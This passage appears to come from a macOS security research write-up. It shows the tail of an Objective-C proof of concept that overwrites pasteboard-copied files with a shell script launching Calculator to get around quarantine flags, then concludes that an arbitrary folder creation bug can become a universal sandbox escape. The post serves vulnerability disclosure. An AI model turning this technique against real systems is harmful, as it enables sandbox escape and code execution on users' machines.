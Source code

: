 ```objective-c
        NSArray *filePaths = [pasteboard readObjectsForClasses:@[[NSURL class]] options:nil];
        for (NSURL *fileURL in filePaths) {
            NSLog(@"Copied file path: %@", [fileURL path]);

            NSString *newContent = @"#!/bin/sh\nopen -a Calculator";
            NSError *error = nil;
            if ([newContent writeToFile:[fileURL path] atomically:YES encoding:NSUTF8StringEncoding error:&error]) {
                NSLog(@"Replaced the content of the copied file. The copied file's quarantine file should be 0082");
            } else {
                NSLog(@"Failed to replace the content of the copied file: %@", [error localizedDescription]);
            }
        }
    }
    return 0;
}
```

<img src="/images/2024-08-24-Unveiling-Mac-Security-A-Comprehensive-Exploration-of-TCC-Sandboxing-and-App-Data-TCC/Picture22.png" style="zoom:50%; display: block; margin: 0 auto;" />



### **2.10 Conclusion**

Traditionally, an arbitrary folder creation vulnerability is considered harmless and cannot lead to any exploitable outcome.



However, on macOS, by combining some exploit methods to modify the quarantine flag, such a seemingly useless vulnerability can be transformed into a universal sandbox escape.



When I analyzed how Apple implemented the App Sandbox on macOS, I discovered the arbitrary folder creation vulnerability. At that time, I considered it an unexploitable vulnerability. However, as my understanding of macOS security deepened, I realized it could be exploited. I then spent two weeks figuring out how to exploit it. As a security researcher, please do not ignore any seemingly insignificant vulnerabilities, especially when analyzing a new OS.
